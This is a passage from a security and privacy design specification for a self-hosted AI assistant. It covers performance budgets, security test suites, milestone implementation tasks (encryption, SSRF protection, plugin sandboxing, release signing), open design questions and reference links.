| 04 | Untrusted → `proposed`; label-filtered retrieval; export via IFC; forget = crypto-shred |
| 05 | Pre-identity gate (S4), bot gate and reply caps, budgets (§3.6.7), per-route egress manifest, Hybrid/Local-only routing, `store:false`, charter disclaimers, child-safety layer, no streaming before guard |
| 06 | Identity by platform ID, callback hardening, preview suppression and mention neutralization (§3.12), claim/link flows, adapter state dirs, email sender policy |
| 07 | ICS scope and listener, RRULE caps, proactivity from audience-safe data only, child quiet hours |
| 09 | Exposure modes, Host/Origin, headers/CSP, sessions, pairing login, CSRF, step-up, rate limits, doctor checks, wizard disclosures, ● key enforcement |
| 10 | Manifest permissions, approval + hash pinning, sandbox launcher, MCP client/server rules (§3.14) |
| 11 | Test suites in §3.20/§9 wired into CI gates; red-team scenario families |
| 12 | Image hardening, signing, SBOM, provenance, SLSA L3 workflow, systemd unit |
| 13 | Privacy & Trust page, security docs, SECURITY.md publication, naming |

---

## 8. Performance & cost

| Item | Budget / expectation | Verification |
|---|---|---|
| SQLCipher overhead | ≤ 20% on ingestion p95 and context-build p95 vs. plaintext (spine budgets still met: ingestion < 20 ms, context < 150 ms @ 50k memories) | M1-T80 spike, M13 perf suite |
| Unlock | keyfile/env: < 50 ms; scrypt passphrase: ≈ 0.3–1 s once at boot (128 MiB) | Benchmark on Pi 5 |
| secretstream (WASM) | ≥ 150 MB/s on x86 laptop, ≥ 40 MB/s on Pi 5; otherwise switch to `sodium-native` | M1-T80 |
| Blob encrypt overhead | < 5% of media job wall time | M11 |
| Backup | Single streaming pass; ≈ DB+blobs size / secretstream throughput | M14 |
| Per-request HTTP security | Host/Origin/CSRF/HMAC: < 0.2 ms; CSP nonce injection: < 0.1 ms | Microbench |
| `safeFetch` | +1 DNS lookup per hop; no measurable cost elsewhere | — |
| Media sandbox | Process spawn ≈ 50–150 ms per job (pool of 1 warm worker per kind) | M11 |
| Plugin process | +30–60 MB RSS per active plugin; idle plugins stop after 10 min | M12; within idle RSS ≤ 300 MB with 0 plugins |
| Guard judge, red-team | Model cost owned by `03`/`11`; live red-team nightly budget ≤ $25/night (Economy preset for bulk, Best for a sample) | `11` |
| Hybrid mode | Shifts declassify/extract/guard cost to local CPU; documents latency (Pi 5: seconds per call) | M13 |

---

## 9. Testing & evals

Test IDs referenced in §3. `sec.*` live next to the code (Vitest). `prop.*` use fast-check. `fuzz.*` run under `pnpm test:fuzz` (fast-check drivers) and nightly Jazzer.js. `dast.*` use ZAP. `redteam.*` are scenario suites in `@comvivo/evals` (`11`).

| Suite | Asserts |
|---|---|
| `sec.crypto.kat` | HKDF RFC 5869 vectors; AES-GCM wrap round-trip; wrong AAD → `auth_failed` |
| `sec.crypto.tamper.*` | Bit flips in DB page, blob chunk, `VBK1` header/body → hard failure; secretstream truncation and reorder detected |
| `sec.crypto.blob-id` | Same plaintext → same address within an instance; different instance → different address; raw SHA-256 never stored |
| `sec.keys.*` | Unlock order; permission refusal; rotate-master/data/recovery/sessions semantics incl. crash-resume; last recovery slot cannot be removed; RK codec typo tolerance and checksum |
| `sec.backup.*` | Restore with MK and with RK on a fresh dataDir; wrong RK rejected; rewrap invalidates the old RK; no plaintext temp files (inotify/fs spy) |
| `sec.logs.canary` | Canary secrets and canary content injected everywhere (env, SDK errors, tool outputs, traces) never appear in logs, traces, DB settings or exports |
| `sec.http.*` | Exposure-mode validation; Host 421; Origin 403; CSRF; cookie flags per mode; headers exact; CSP violation report = failure (Playwright); rate limits; step-up gating; session rotation and revocation triggers; pairing binds to browser (S8); magic link GET does not consume |
| `sec.ssrf.*` + `fuzz.ssrf.classify` | Every deny range blocked in all encodings; redirects to private blocked; rebinding (first public, then private) blocked by pinning; decoded-size cap |
| `sec.egress.manifest` / `.local-only` | Route manifests match §3.11.1; Local-only boot refuses cloud routes; zero non-platform egress |
| `sec.gate.*` | Unknown DM / unbound group / platform bots → no model call (FakeModel call count = 0) |
| `sec.callbacks.forged` | Tampered or other-member callbacks rejected |
| `sec.audience.roster` | Roster mismatch withholds member-only data |
| `sec.identity.*`, `sec.link.*`, `sec.claim.*` | Display-name spoofing ignored; linking requires existing identity; claim token single use |
| `sec.mcp.*` | PAT scopes/expiry/revocation; Origin; audience = PAT person; definition hash change disables tool; sampling refused |
| `sec.plugin.escape` / `.dos` | §3.20 isolation attempts fail; timeouts and circuit breaker |
| `sec.supply.*` | Lockfile/`allowBuilds` policy; version gates (pdf.js ≥ 4.2.67, SQLite3MC ≥ 2.4.0); model pins verified |
| `sec.release.verify` | Provenance and cosign verification from a clean runner |
| `fuzz.*` | Targets listed in §3.20; zero crashes/hangs; renderer outputs never contain mass-mention tokens or unescaped markup |
| `dast.zap.baseline` / `.api` | No High or Medium alerts, except ignores recorded in `.zap/rules.tsv` with a written justification (same gate as `11` §3.8.6) |
| `redteam.*` | Targets from 00 §7: 0 leaks (discretion), 0 unauthorized mutations (authority); exfil/inference/poisoning/wallet suites at 0 Critical/High findings by M13 |

**Quality gates** (enforced through `11`):
- **Every PR:** the M0 security jobs plus `sec.*` and fuzz smoke.
- **M5 exit:** `prop.ifc.*` + `redteam.discretion`/`.injection`/`.exfil.url` deterministic green.
- **M9 exit:** `sec.http.*` + ZAP.
- **M12 exit:** `sec.plugin.*` + `sec.mcp.*`.
- **M14 exit:** `sec.release.verify` + SBOM.
- **M15:** external review gate.

---

## 10. Implementation tasks

Each row lists the task, its files, its acceptance criteria and its dependencies.

### M0 — Foundations (CI security tooling)
| ID | Task | Files | Acceptance | Deps |
|---|---|---|---|---|
| M0-T80 | SECURITY.md and disclosure plumbing | `SECURITY.md` (§3.18), `.github/ISSUE_TEMPLATE/config.yml`, `.github/CODEOWNERS`, `docs/security/README.md` | Private vulnerability reporting enabled (manual setting logged in STATUS); text matches §3.18; CODEOWNERS requires 2 reviews on §3.15 security paths | Repo bootstrap |
| M0-T81 | pnpm supply-chain config | `pnpm-workspace.yaml` (§3.15 block), `package.json#packageManager`, `.npmrc` (registry only) | Installing a version < 3 days old fails; an unlisted build script fails; CI uses `--frozen-lockfile` | Monorepo scaffold |
| M0-T82 | CI security workflows | `.github/workflows/{codeql,osv,dependency-review,zizmor,scorecard,supply-policy}.yml`, `osv-scanner.toml`, `scripts/supply/{lockfile-policy,check-lockfile,native-policy,check-native}.ts` | All green on the scaffold; actions pinned by SHA; `permissions: {}`; zizmor clean; supply-policy blocks a synthetic `git+` dep | M0-T81 |
| M0-T83 | Renovate policy | `renovate.json5` | `minimumReleaseAge: "3 days"`, grouping, digest pinning, no runtime-dep auto-merge; passes `renovate-config-validator` | M0-T82 |
| M0-T84 | Security lint and dependency-cruiser rules | `biome.json`/`eslint.config.ts`, `.dependency-cruiser.cjs` | Network request APIs only in `shared/net` + model/channel adapters; `node:child_process` only in the sandbox launcher/transcription runner; crypto only in `shared/crypto` + `storage/crypto`; bans per §3.20 SAST; fixture violations fail `pnpm verify` | ADR-020 setup |
| M0-T85 | Logger redaction + `SecretString` | `packages/shared/src/logger/redact.ts`, `packages/shared/src/secrets/*` | `sec.logs.canary` (unit) passes for all §3.10 patterns; `SecretString` unprintable via `console.log`, `JSON.stringify`, `util.inspect` | Shared logger |

### M1 — Storage & domain core (crypto)
| ID | Task | Files | Acceptance | Deps |
|---|---|---|---|---|
| M1-T80 | Encryption spike (with `02`'s ADR-005 spike) | `spikes/crypto/*`, `docs/adr/ADR-0xx-encryption.md` | SQLite3MC raw-key sqlcipher legacy 4 + FTS5 + sqlite-vec + Drizzle work together; WAL rekey (≥ 2.4.0); `VACUUM INTO`/backup-API behavior documented; libsodium-wrappers ESM + secretstream throughput vs §8 on x86 and Pi 5; decision recorded | M1 storage scaffold |
| M1-T81 | `@comvivo/shared/crypto` primitives | `packages/shared/src/crypto/{random,hkdf,wrap,hmac,equal,scrypt,stream}.ts` | `sec.crypto.kat` and stream tamper tests pass; 100% branch coverage; the only module importing `node:crypto`/libsodium | M1-T80 |
| M1-T82 | KeyService + keyring | `packages/storage/src/crypto/{keyring,key-service,unlock-sources,keychain}.ts` | §3.7.3–3.7.5 behavior; atomic writes; permission refusal; `sec.keys.*` including crash-resume via fault injection | M1-T81 |
| M1-T83 | Recovery key codec + `village keys` | `packages/storage/src/crypto/recovery-key.ts`, `apps/cli/src/commands/keys/*` | Codec property tests (typo normalization; checksum catches all single-char errors); commands `status`, `verify-recovery`, `rotate-{master,data,recovery,sessions}`, `recover`, `add-passphrase`, `remove-slot`, `purge-retired`; ceremony per §3.7.6 | M1-T82 |
| M1-T84 | Blob cipher | `packages/storage/src/crypto/blob-cipher.ts` (+ `02` blob store) | `VBL1` format; keyed addresses (`sec.crypto.blob-id`); tamper, truncation and crypto-shred tests | M1-T81, M1-T82 |
| M1-T85 | Backup envelope `VBK1` | `packages/storage/src/crypto/backup-envelope.ts` | Seal/open with MK and RK; header tamper fails; `rewrapHeader`; no plaintext temp files | M1-T84 |
| M1-T86 | TokenService | `packages/shared/src/tokens/*` | Formats per §3.7.12; parsers property-tested; constant-time MAC check; epoch invalidation | M1-T81 |
| M1-T87 | `safeFetch` | `packages/shared/src/net/{safe-fetch,classify,blocklist,pinning-agent}.ts` | `sec.ssrf.*` + `fuzz.ssrf.classify` green; rebinding test with a fake resolver; decoded-size cap | M0-T84 |
| M1-T88 | Secret loading | `packages/shared/src/config/secrets.ts` | `<NAME>_FILE` for all secrets; env scrubbed after read; `.env` mode check; child-env allowlist helper | M0-T85 |

### M2, M3 — Model gateway exposure; outbound safety and gates
| ID | Task | Files | Acceptance | Deps |
|---|---|---|---|---|
| M2-T80 | Egress manifest + Hybrid/Local-only | `packages/models/src/egress-manifest.ts`, config validation | Manifest matches §3.11.1; `localOnly` fail-closed at boot; `sensitiveRoutesLocal` routing; OpenAI `store:false`; `sec.egress.manifest` | `05` gateway tasks |
| M3-T80 | Renderer safety | `packages/channels/sdk/src/render/safety.ts`, Telegram renderer | Mention neutralization + cap; preview suppression; escaping; `fuzz.render.*` (Telegram HTML, web-md); forged-callback harness in the SDK test kit (`sec.callbacks.forged`) | `06` SDK tasks |
| M3-T81 | Pre-identity, bot and binding gates; instance claim | `packages/engine/src/ingest/gates.ts`, `apps/server/src/claim.ts` | `sec.gate.*`, `sec.claim.*`; FakeModel call count = 0 for gated traffic | `06`, minimal `09` server |

### M5 — IFC & discretion (with `03`)
| ID | Task | Files | Acceptance | Deps |
|---|---|---|---|---|
| M5-T80 | S10/S11 property tests | `packages/core/src/ifc/__tests__/security-invariants.prop.test.ts` | fast-check models of rosters and untrusted contexts; invariants hold for 100k runs | `03` M5 IFC tasks |
| M5-T81 | URL provenance policy | `packages/core/src/ifc/url-policy.ts`, `engine/guard` integration | Classifier per §3.6.3, property-tested; defangs recorded in `guardResults`; deterministic `redteam.exfil.url` green | M3-T80, `03` guard |
| M5-T82 | Inference, injection, exfil and canary red-team families | `packages/evals/scenarios/redteam/{inference,exfil,injection,canary}/*` | IA-1..IA-11 each ≥ 10 scenarios; canaries in sealed items; deterministic in PR, live nightly | `11` harness, `03` |

### M9 — Dashboard, API, auth, CLI wizard (hardening)
| ID | Task | Files | Acceptance | Deps |
|---|---|---|---|---|
| M9-T80 | HTTP security middleware | `apps/server/src/http/security/{exposure,host-origin,headers,csp,body-limits}.ts` | Exposure-mode validation (exit 78); S7; exact header set; nonce injected into `index.html`; zero Trusted Types/CSP violations in Playwright | `09` HTTP scaffold |
| M9-T81 | Auth security | `apps/server/src/http/auth/{pairing,magic,sessions,csrf,stepup}.ts` | §3.7.12 flows; S8; revocation triggers; login notifications; `sec.http.login.*` | M1-T86, `09` auth UX |
| M9-T82 | Rate limiting | `apps/server/src/http/security/rate-limit.ts` | §3.8.8 limits; `429` + `Retry-After`; victim notified after 10 failures | M9-T80 |
| M9-T83 | Host-only settings + ICS listener | `apps/server/src/config/host-only.ts`, `apps/server/src/ics-listener.ts` | ● keys ignored from DB, 403 on dashboard writes; ICS listener serves feeds only; `sec.ics.scope` | M9-T80, `07` |
| M9-T84 | DAST seeds and rules (workflow owned by `11:M9-T3`) | `.github/workflows/security-dast.yml` (with `11`), `.zap/rules.tsv`, `apps/server/test/fixtures/seed-security.ts` | ZAP baseline + authenticated API scan with no High/Medium (justified ignores only); runs on server/dashboard PRs, weekly and from the release | M9-T80..T82 |
| M9-T85 | `village doctor` security checks + `--bundle` | `apps/server/src/diagnostics/checks/security/*.ts` (registry owned by `09` §3.11.6) | D-01..D-16 registered under the §3.10 ids, with fixtures; bundle redacted (canary test) | M1-T82, M1-T88 |
| M9-T86 | Wizard and in-chat disclosures | `templates/copy/privacy/{wizard,host-trust,group-intro,privacy-command}.md`; wiring in `apps/cli` init and engine onboarding | §3.11.4 texts rendered from live config; recovery-key ceremony; Google unpaid-tier warning/refusal; S14 announcement | M1-T83, `03` consent flow |

### M11, M12 — Parser isolation; plugin and MCP isolation
| ID | Task | Files | Acceptance | Deps |
|---|---|---|---|---|
| M11-T80 | Media worker sandbox | `packages/engine/src/media/sandbox-runner.ts`, worker entries | §3.13 limits; pdf.js `isEvalSupported:false` asserted; `fuzz.media.*`; EXIF stripped before provider calls; ffmpeg protocol whitelist | M12-T80 launcher (pull forward) or a minimal M11 launcher |
| M12-T80 | Sandbox launcher | `packages/plugin-sdk/src/host/sandbox.ts` | §3.14 flags; env allowlist; net denial verified on Node ≥ 25; Node 24 degrade warning; backoff and circuit breaker; `sec.plugin.escape`, `sec.plugin.dos` | `10` SDK |
| M12-T81 | Approval + hash pinning | `packages/plugin-sdk/src/host/approval.ts`, `apps/cli/src/commands/plugins/*` | Manifest and tool hashes stored; any change disables; permission diff shown; host-only | M12-T80 |
| M12-T82 | Brokered network | `packages/plugin-sdk/src/host/net-broker.ts` | `ctx.http.fetch` → `safeFetch` + `net.hosts` + rate limit + audit | M1-T87 |
| M12-T83 | MCP client hardening | `packages/mcp/src/client/{spawn,remote,pinning,egress-check}.ts` | §3.14 MCP client items 1–7; OAuth tokens in the vault; no passthrough; sampling refused | `10` MCP client |
| M12-T84 | MCP server security | `packages/mcp/src/server/{auth,origin}.ts` | PAT flows; Origin 403; audience = PAT person; guarded responses; `sec.mcp.*` | M1-T86, `10` MCP server |

### M13, M14 — Evals hardening; signing, SBOM, ops
| ID | Task | Files | Acceptance | Deps |
|---|---|---|---|---|
| M13-T80 | Red-team at targets + fuzz campaigns | `.github/workflows/nightly-security.yml` (fuzz only), Jazzer.js targets in `packages/*/fuzz/`; red-team runs in `11`'s `nightly.yml`/`quality-gates.yml` | 00 §7 discretion and authority targets met on all presets (per `11:M13-T1`/`T2`); 7 consecutive clean nightly fuzz runs; findings triaged | M5-T82, `11` |
| M13-T81 | Crypto and isolation perf | `packages/evals/perf/security.bench.ts` | §8 budgets met on x86 and Pi 5; results published | M1, M12 |
| M14-T80 | npm trusted publishing | `.github/workflows/release.yml` (with `12`) | OIDC publish with provenance; tokens disallowed on all packages; post-publish verification; fails on "Skipped OIDC" | `12` release workflow |
| M14-T81 | Image signing + attestations (with `12:M14-T3`) | `release.yml` jobs `image-sign-attest` (`12` §3.10.4), `docs/security/verify.md` | Multi-arch image with `actions/attest` SLSA provenance and Syft CycloneDX SBOM attestations (BuildKit attestations off); cosign keyless `--recursive` signature; the documented `cosign verify` + `gh attestation verify` recipe passes in CI | `12` Dockerfile |
| M14-T82 | SBOM + SLSA Build L3 | `.github/workflows/build-reusable.yml` (called by `release.yml`, listed in `12` §3.10.4) | `pnpm sbom --sbom-format cyclonedx --prod` per published package attached to the release; image and npm builds run in the isolated reusable workflow and meet L3 per GitHub guidance | M14-T80, M14-T81 |
| M14-T83 | Reproducible tarballs | `.github/workflows/repro.yml` | Two independent builds give identical npm tarballs (`SOURCE_DATE_EPOCH`); image diff reported (non-gating) | M14-T80 |
| M14-T84 | Backup/restore + rotation e2e | `apps/cli/test/e2e/keys-backup.e2e.test.ts` | Restore on a fresh host with RK; `rotate-data` on live data resumes after kill -9; upgrades keep the keyring compatible | `02`/`12` backup ops |
| M14-T85 | Container + systemd hardening | `deploy/docker/Dockerfile`, `deploy/compose/*.yml`, `deploy/systemd/village.service` | `sec.image.policy` (non-root UID, default `1000:1000`; uid 0 refused unless `COMVIVO_ALLOW_ROOT=1`; read-only rootfs, `cap_drop: ALL`, `no-new-privileges`); `systemd-analyze security` exposure ≤ 2.5 (same target as `12:M14-T11`) | `12` |

### M15 — Docs, launch, external review
| ID | Task | Files | Acceptance | Deps |
|---|---|---|---|---|
| M15-T80 | User-facing security/privacy docs (paths follow `13` §3.C.3) | `apps/docs/src/content/docs/{trust/index,trust/threat-model,trust/data-flows,trust/verify-releases,trust/security-policy,operate/security-hardening,operate/dashboard-access,operate/backups}.md`; the host compromise playbook (§3.19 E) is the `#if-compromised` section of `operate/security-hardening` | Privacy & Trust page per §3.21 with live links; every §5 key documented; reviewed by a non-technical reader | M9-T86, M14 |
| M15-T81 | Maintainer runbook + advisory templates | `docs/maintainers/{incident-response,advisory-template,release-compromise}.md` | §3.18–3.19 content; tabletop exercise B run and logged in STATUS | M14 |
| M15-T82 | External security review gate | `docs/security/review-2027.md` (published report + remediation table) | §3.20 checklist covered; all Critical/High fixed; Medium fixed or accepted with an ADR | All above |

---

## 11. Open questions (with recommended defaults)

| # | Question | Recommended default |
|---|---|---|
| OQ-1 | Should pairing replace bot-sent magic links entirely, even on loopback? | **Resolved (01 §14 A9).** Pairing is the default everywhere; magic links stay available on loopback, and over HTTPS only when the host opts in (SD-09) |
| OQ-2 | `libsodium-wrappers` (WASM) vs `sodium-native` (native, faster) | **Resolved (01 §14 A8).** WASM by default; `sodium-native` only if M1-T80 measures < 40 MB/s on a Pi 5 |
| OQ-3 | Adopt the `age` format for backups (standard tooling can decrypt) instead of `VBK1`? | **Not for 1.0** (outside SD-01's library policy). Ship `village backup decrypt` as a standalone, documented command; revisit post-1.0 |
| OQ-4 | Default `minimumReleaseAge`: 1 day (pnpm 11 default) or 3 days? | **3 days**, explicit (strict), with the documented emergency exclusion path |
| OQ-5 | Allow guardians verbatim access to young children's (<13) DMs? | **No.** Guardians approve actions and can export/delete; no reading DMs. Revisit only with child-safety expert input |
| OQ-6 | Make Hybrid (`sensitiveRoutesLocal`) the default when a local model is detected at init? | **Owner decision D-6 (`15` §1); do not decide here.** Recommendation: offer it pre-selected in the wizard when Ollama is reachable and the machine has ≥ 16 GB RAM; otherwise Cloud. Until decided, the wizard shows Hybrid as an unselected option |
| OQ-7 | Require DMARC pass *or* allowlist for email ingestion, or allowlist only? | **Allowlist OR DMARC pass**, quarantining the rest with an admin DM |
| OQ-8 | Run the server with `--disable-proto=delete` (prototype-pollution hardening)? | **Try in M13**; adopt if all deps pass the suites |
| OQ-9 | Container runner for plugins/MCP in 1.0 or post-1.0? | **Post-1.0** unless M12 has slack; process runner + Node ≥ 25 net denial for 1.0 |
| OQ-10 | Publish a PGP key and security@ address, or GitHub-only reporting? | **GitHub PVR primary**; security@ alias once the domain exists (`13`); PGP optional |
| OQ-11 | Anchor audit-chain heads outside the host (e.g. weekly DM of the head hash to admins)? | **No for 1.0.** Low value against a host who controls the bot; revisit |
| OQ-12 | Inference budget numbers (IA-2) | Start at **3 distinct constraint-derived disclosures per subject per requester per day**; tune with `03` red-team data |
| OQ-13 | ICS feeds: include private events in a member's own feed? | **Only if the member opts in per feed**, with the "Google/Apple will store these" warning |

---

## 12. Proposed spine changes

| # | Spine location | Change | Rationale | Status |
|---|---|---|---|---|
| PSC-1 | ADR-001 (runtime) | Target **Node.js 26 LTS** (Active LTS since Oct 2026, EOL Apr 2029) and keep Node 24 (maintenance LTS until Apr 2028) supported | Node 24 left Active LTS in Oct 2026. Node's `--allow-net` (added v25.0.0) exists only in ≥ 25, so plugin network denial needs 26. Corepack is not bundled from 25 | → Resolved: 01 §14 A1 |
| PSC-2 | §9 trust boundaries | Replace the five boundaries with B1–B9 (§3.2): add plugin/MCP processes, browser ↔ API, members' agents ↔ MCP server, supply chain; add "model output is untrusted" to B4 | The spine list omits boundaries that carry real attacks | → Accepted, owned here (§3.2 refines spine §9; the spine summary stays as is) |
| PSC-3 | §9 at rest | "Key in `data/keys/master.key`" → "**unlock key** in `data/keys/master.key` (or keychain/`_FILE`/env/passphrase); data keys in a slot-based keyring wrapped by the master key and a printed recovery key" | Enables cheap rotation and off-host restore (SD-02/04) | → Accepted, owned here (§3.7; consistent with 01 §14 A8/A10) |
| PSC-4 | §5 `Blob` | `sha256` → `addr` = HMAC-SHA256(instance blob-id key, plaintext); add `dekWrapped`, `kekGen` | Prevents confirmation-of-file; enables crypto-shredding (SD-06) | → Resolved: 01 §14 A8 (keyed-hash filename, per-blob wrapped DEK; `02` schema) |
| PSC-5 | §6.4 `backup.snapshot` | "`VACUUM INTO` + key-wrapped archive" → "consistent encrypted snapshot (method chosen by the M1 spike: online backup API or `VACUUM INTO`) sealed in `VBK1`" | SQLite3MC documents WAL constraints for `VACUUM INTO` with keys | → Resolved: 01 §14 A8 (spike decides) and A10 (`VBK1`) |
| PSC-6 | §9 dashboard | "Login is by magic link…" → "Login is **browser-bound pairing** approved by the member in a DM; bearer magic links only when the dashboard is loopback-only" | A link on platform servers must not grant a remote session (SD-09) | → Resolved: 01 §14 A9 (pairing default; magic links on loopback or HTTPS with explicit opt-in; S8 exception added) |
| PSC-7 | §9 dashboard | Add: Host-header allowlist (DNS rebinding), strict nonce CSP, exposure modes with TLS required for non-loopback | Concrete, testable defaults | → Accepted, owned here (§3.8; implementation `09`) |
| PSC-8 | §4 dependency rules | Add: network request APIs only in `shared/net` (`safeFetch`) plus model/channel adapters; `node:crypto`/libsodium only in `shared/crypto` + `storage/crypto`; `node:child_process` only in the sandbox launcher/transcription runner | Makes S3, the crypto policy and S9 structural | → Resolved: 01 §14 A11 |
| PSC-9 | §7.1 `ChannelCapabilities` | Add `linkPreviewControl: 'per-message' \| 'client-side'` and `massMentionTokens: readonly string[]`; add `isBot` to `InboundEnvelope` sender info | Renderers and gates need these to enforce S5/S6/S4 | → Deferred/Rejected: not in 01 §14; `06` §A is authoritative for the channel contract (A26), so `06` must carry these fields (listed as a cross-cluster item in the R3 review log) |
| PSC-10 | §6.1 step 2.3 | "Unknown senders in a bound group become `Member{status:'active'…}`" → add: **audience resolution uses the platform roster; unknown participants withhold member-only data** (S11) | Otherwise lurkers and ex-members still in the chat can read group memory | → Resolved: 01 §14 A4 (S1–S14 incl. S11) and A5 (`Audience.seats`) |
| PSC-11 | ADR-014 / §10 config | Add the **host-only key class** (●): those keys are read only from env/YAML, never from DB settings | A curious-admin session must not be able to change egress, plugins, providers or debug settings | → Resolved: 01 §14 A14 |
| PSC-12 | §10 config | Add `privacy.localOnly`, `privacy.sensitiveRoutesLocal`, `dashboard.{allowedHosts,trustProxy,tls,allowInsecureLan}`, `network.egress.*`, `outbound.*`; generic `<SECRET>_FILE` | Needed by §5 | → Accepted, owned here (§5; full schema generated from zod by `09`) |

---

## References (checked 2026-11-01)

- Node.js permissions (stable since 22.13/23.5; "does not protect against malicious code"; limits): https://nodejs.org/docs/latest-v24.x/api/permissions.html · `--allow-net` added v25.0.0: https://nodejs.org/api/cli.html#--allow-net · Node 26 LTS docs: https://nodejs.org/api/permissions.html
- Node `net.BlockList`: https://nodejs.org/api/net.html#class-netblocklist · `crypto.argon2` added v24.7.0: https://nodejs.org/api/crypto.html
- Corepack no longer distributed from Node 25 (TSC vote): https://github.com/nodejs/TSC/issues/1518
- pnpm `minimumReleaseAge` (default 1440 in pnpm 11), `trustPolicy`, `blockExoticSubdeps`: https://pnpm.io/settings/dependency-resolution · `allowBuilds`/`strictDepBuilds`: https://pnpm.io/settings/build · `pnpm sbom` (v11): https://pnpm.io/cli/sbom
- Dependabot `cooldown`: https://docs.github.com/en/code-security/reference/supply-chain-security/dependabot-options-reference
- npm trusted publishing GA (2025-07-31; provenance automatic; npm ≥ 11.5.1): https://github.blog/changelog/2025-07-31-npm-trusted-publishing-with-oidc-is-generally-available/ · https://docs.npmjs.com/trusted-publishers
- GitHub artifact attestations (SLSA Build L2; L3 via reusable workflows): https://docs.github.com/en/actions/concepts/security/artifact-attestations
- OSV-Scanner GitHub Action: https://google.github.io/osv-scanner/github-action/ · zizmor: https://github.com/zizmorcore/zizmor · ZAP baseline action: https://github.com/zaproxy/action-baseline · OpenSSF Scorecard: https://github.com/ossf/scorecard-action
- Sigstore cosign container signing: https://docs.sigstore.dev/cosign/signing/signing_with_containers/ · Docker build attestations: https://docs.docker.com/build/metadata/attestations/
- SQLite3MultipleCiphers pragmas (raw keys, rekey in WAL since 2.4.0): https://utelle.github.io/SQLite3MultipleCiphers/docs/configuration/config_sql_pragmas/ · release 2.4.0: https://github.com/utelle/SQLite3MultipleCiphers/releases/tag/v2.4.0
- `@napi-rs/keyring` (v2.1.2, 2026-10): https://github.com/Brooooooklyn/keyring-node · node-keytar archived 2022-12-15: https://github.com/atom/node-keytar
- systemd credentials: https://www.freedesktop.org/software/systemd/man/latest/systemd-creds.html
- OWASP Top 10 for LLM Applications 2025 (current on official site): https://genai.owasp.org/llm-top-10/ · OWASP Top 10 for Agentic Applications (Dec 2025): https://genai.owasp.org/ · OWASP ASVS 5.0: https://github.com/OWASP/ASVS · OWASP SSRF cheat sheet: https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html
- MCP spec 2026-07-28 (security principles; Streamable HTTP Origin validation; security best practices incl. SSRF, local server compromise, token passthrough, state handles): https://modelcontextprotocol.io/specification/2026-07-28/basic/transports/streamable-http · https://modelcontextprotocol.io/specification/2026-07-28/basic/security_best_practices
- Willison, "The lethal trifecta" (2025-06-16): https://simonwillison.net/2025/Jun/16/the-lethal-trifecta/ · CaMeL: https://arxiv.org/abs/2503.18813 · Design patterns for securing LLM agents: https://arxiv.org/abs/2506.08837
- pdf.js CVE-2024-4367 (fixed 4.2.67; `isEvalSupported`): https://github.com/advisories/GHSA-wgrm-67xf-hhpq
- Discord allowed mentions and `SUPPRESS_EMBEDS`: https://docs.discord.com/developers/resources/message · Slack `chat.postMessage` unfurl args: https://docs.slack.dev/reference/methods/chat.postMessage · Slack formatting/escaping: https://docs.slack.dev/messaging/formatting-message-text · Telegram `LinkPreviewOptions`: https://core.telegram.org/bots/api#linkpreviewoptions · Matrix mentions (v1.7+): https://spec.matrix.org/latest/client-server-api/#user-and-room-mentions
- Anthropic retention: https://privacy.claude.com/en/articles/7996866-how-long-do-you-store-my-organization-s-data · training: https://privacy.claude.com/en/articles/7996868-is-my-data-used-for-training · minors guidelines: https://support.claude.com/en/articles/9307344-responsible-use-of-anthropic-s-models-guidelines-for-organizations-serving-minors
- OpenAI data controls: https://developers.openai.com/api/docs/guides/your-data · Under-18 API guidance: https://developers.openai.com/api/docs/guides/safety-checks/under-18-api-guidance
- Gemini API terms (unpaid vs paid): https://ai.google.dev/gemini-api/terms
- GDPR Art. 2(2)(c), Recital 18: https://eur-lex.europa.eu/eli/reg/2016/679/oj · CJEU C-101/01 *Lindqvist*, C-212/13 *Ryneš*, C-25/17 *Jehovan todistajat* (curia.europa.eu) · BGH referral I ZR 256/25 and I ZR 289/25 (17 Sep 2026), reported at https://www.recordinglaw.com/news/bgh-cjeu-gdpr-household-exemption-referral/
- EU AI Act Art. 50 timing and Omnibus: https://www.goodwinlaw.com/en/insights/publications/2026/08/alerts-technology-dpc-eu-ai-act-transparency-obligations-now-in-force · Art. 2(12) and open source: https://linuxfoundation.eu/newsroom/ai-act-explainer
- US EAR encryption, March 2021 rule (publicly available source; non-standard cryptography exception): https://www.goodwinlaw.com/en/insights/publications/2021/03/03_31-spring-cleaning-us-department-of-commerce
- Tailscale Serve: https://tailscale.com/kb/1312/serve · Cloudflare Tunnel: https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/ · Caddy automatic HTTPS: https://caddyserver.com/docs/automatic-https
- IANA special-purpose address registries: https://www.iana.org/assignments/iana-ipv4-special-registry/ · https://www.iana.org/assignments/iana-ipv6-special-registry/
